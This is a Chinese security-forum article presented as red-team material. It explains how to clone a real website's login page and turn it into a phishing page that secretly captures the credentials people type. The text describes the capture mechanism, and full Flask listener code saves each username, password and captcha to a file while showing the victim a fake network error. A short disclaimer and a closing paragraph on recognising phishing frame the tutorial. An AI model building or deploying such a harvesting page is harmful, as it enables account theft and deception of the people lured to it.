




# 钓鱼的另一种手法高度仿真的伪装登录页面-先知社区

> **来源**: https://xz.aliyun.com/news/18328  
> **文章ID**: 18328

---

本文章中所有内容仅供学习交流，严禁用于商业用途和非法用途，否则由此产生的一切后果均与文章作者无关

## 前言

在网络攻防演练或红队测试中，钓鱼攻击是一种常见的社会工程手段。为了提高攻击的迷惑性和成功率，构建一个**高度仿真的伪装登录页面**是关键环节之一。本文将简要介绍其实现原理、构建方法及注意事项。

## 一、什么是伪装登录页面？

伪装登录页面，是指**仿照真实网站外观制作的钓鱼页面**，目的在于诱导用户输入账号密码、验证码、Cookie 等敏感信息。此类页面通常用于：

* 模拟账号密码泄露场景；
* 绕过双因素认证；
* 收集浏览器环境或行为数据。

仅限合法授权测试中使用，非法使用属于违法行为！

## 二、实现原理

伪装登录页面的核心在于：

* **外观一致**：页面布局、图标、CSS 样式与真实网站一致；
* **行为一致**：输入框、按钮交互保持真实感；
* **数据劫持**：将用户输入内容记录或中转，供后续利用；
* **伪造跳转**：用户提交信息后模拟登录成功或重定向到真实网站。

## 三、实现过程

首先你找到你需要伪装的页面然后来进行克隆，当然可以进行手动编写。你也可以使用一些捷径的方法这里推荐一个chrome的插件，可以直接下载你打开的网页。[https://chromewebstore.google.com/detail/singlefile/mpiodijhokgodhhofbcjdecpffjipkle?hl=zh-CN&amp;utm\_source=ext\_sidebar](https://chromewebstore.google.com/detail/singlefile/mpiodijhokgodhhofbcjdecpffjipkle?hl=zh-CN&utm_source=ext_sidebar)

下面进行演示：随机找一个网站


可以ctrl+s来进行保存网页，但是有一个瑕疵就是不好部署，是一个文件夹形式的，可以使用以下命令来进行保存。

```
wget --convert-links --page-requisites --no-parent -O saved.html https://example.com
```

或者这里可以使用SingleFile插件来进行下载，使用起来也非常的方便选中当前页面单击插件即可下载。好处就是所有源码都保存在一个文件中，在vps中部署就非常的方便。


通过网站使用f12，来对登录框的关键函数来进行定位，找到相应的函数后在下载的html文件中进行定位，后对文件进行编辑。


原理：通过为账号和密码输入框设置事件监听（如 blur 失焦和 submit 提交），在用户输入完成后自动获取输入内容，利用 DOM 的 ID 精准定位到表单元素，实时提取账号和密码的值。随后，这些数据会被封装成标准的 JSON 格式，确保结构化和易于后端解析。接着，前端通过 Fetch API 以 POST 请求的方式，将封装好的数据异步、安全地发送到后端指定接口（如 /monitor），实现前后端的数据联动。整个流程在事件选择上兼顾了实时性与性能，既可用 blur 事件减少无效请求，也可在表单提交时确保数据完整上报；同时，建议在生产环境下采用 HTTPS 保障数据传输安全，并对敏感信息如密码进行加密或脱敏处理，防止泄露。这种方式不仅实现了高效的数据监控和传递，还为后端的 Python 监控脚本提供了标准化的数据入口，便于后续处理和存储。

修改为如下格式后，进行保存后放入vps中。



这里就用python搭建一个临时网页，有一个技巧在启动过程中可以使用nohup命令来启动，防止意外断开连接。



成功搭建


下面需要vps启动一个python的监听脚本(需要对脚本增加执行权限)，脚本可以将获取到的信息进行保存。

```
from flask import Flask, request, jsonify
import logging
import threading
import os

class Config:
    LOG_FILE = os.environ.get('LOG_FILE', '统一登录记录保存.txt')
    LOG_LEVEL = os.environ.get('LOG_LEVEL', 'INFO')
    PORT = int(os.environ.get('PORT', 8888))

app = Flask(__name__)
logging.basicConfig(level=Config.LOG_LEVEL, format='%(asctime)s - %(levelname)s - %(message)s')
file_lock = threading.Lock()

def log_form_data(username, password, captcha):
    line = f"用户名: {username}, 密码: {password}, 验证码: {captcha}
"
    try:
        with file_lock:
            with open(Config.LOG_FILE, 'a', encoding='utf-8') as f:
                f.write(line)
    except Exception as e:
        logging.error(f"写文件出错: {e}")

@app.route('/submit_form', methods=['POST'])
def submit_form():
    username = request.form.get('username', '')
    password = request.form.get('password', '')
    captcha = request.form.get('captcha', '')

    if not username or not password or not captcha:
        logging.warning("缺少必要参数")
        return jsonify({'error': '缺少必要参数'}), 400

    logging.info(f"收到表单数据: 用户名:{username} 验证码:{captcha}")
    log_form_data(username, password, captcha)
    return jsonify({'error': '网络连接错误'}), 404

@app.errorhandler(Exception)
def handle_exception(e):
    logging.error(f"全局异常: {e}")
    return jsonify({'error': '服务器内部错误'}), 500

@app.route('/health', methods=['GET'])
def health_check():
    return jsonify({'status': 'ok'}), 200

@app.after_request
def set_security_headers(response):
    response.headers['X-Content-Type-Options'] = 'nosniff'
    response.headers['X-Frame-Options'] = 'DENY'
    response.headers['Cache-Control'] = 'no-store'
    return response

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=Config.PORT)

```

运行后输入随机输入



查看脚本是否能监听，成功监听。



## 总结：

伪装登录页面是通过高度仿照真实网站外观制作的钓鱼页面，目的是诱导用户输入账号、密码、验证码、Cookie等敏感信息。这类页面常被用来模拟账号密码泄露场景、绕过双因素认证，甚至收集用户的浏览器环境和行为数据。攻击者通常会采用相似的域名和界面设计迷惑用户，并通过后端脚本将收集到的信息发送到自己的服务器。即使用户输入了正确的凭证，页面也可能故意返回错误提示，进一步掩盖真实意图。伪装登录页面不仅威胁用户的账号安全，还可能为后续的网络攻击和信息窃取提供便利。因此，识别和防范此类钓鱼页面对于保障个人和企业的信息安全至关重要。
